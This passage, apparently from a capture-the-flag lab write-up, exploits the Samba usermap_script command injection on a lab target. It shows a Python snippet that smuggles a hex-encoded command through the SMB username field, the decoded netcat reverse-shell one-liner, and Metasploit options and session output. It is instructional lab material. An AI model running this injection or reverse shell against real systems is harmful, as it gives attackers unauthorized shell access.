 ```python
buf += "\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66"    
buf += "\x20"    
    
    
username = "/=`nohup " + buf + "`"    
password = ""    
conn = SMBConnection(username, password, "SOMEBODYHACKINGYOU", "METASPLOITABLE", use_ntlm_v2 = False)    
assert conn.connect(sys.argv[1], int(sys.argv[2]))      
```

This code injects the hexstring into the username and produces a reverse shell.

This is the decoded injected payload that produces the reverse shell.
```bash
mkfifo /tmp/kbgaf; nc <LHOST> <LPORT> 0</tmp/kbgaf | /bin/sh >/tmp/kbgaf 2>&1; rm /tmp/kbgaf 
```

We can also omit the python script and directly use the exploit from the msfconsole:

```msf
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   445              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  XX.XX.XX.XX      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

We must set the options accordingly to allow the reverse shell to connect back to our host machine. set LHOST to the ip address provided by the ovpn instance under the `tun0` section found by running `ip addr`.

Then set the `RHOST` option to the ip address of the target machine, in this case `10.10.10.3`. 

```msf
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.16:4444 
[*] Command shell session 2 opened (XX.XX.XX.XX:4444 -> 10.10.10.3:35875) at 2021-06-27 18:37:31 -0400
```
